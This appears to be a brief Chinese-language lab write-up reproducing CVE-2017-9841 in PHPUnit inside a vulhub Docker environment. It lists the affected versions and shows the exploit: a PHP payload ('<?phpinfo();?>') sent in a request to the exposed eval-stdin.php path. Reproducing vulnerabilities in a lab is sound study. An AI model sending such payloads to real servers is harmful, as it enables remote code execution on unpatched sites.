

# 0x00 软件介绍
PHPUnit：一款php下软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：Ubuntu 18.04.5 LTS

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ybdt.best:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加
```
<?phpinfo();?>
```
如下图  
  
结果如下  
  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络可能会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无
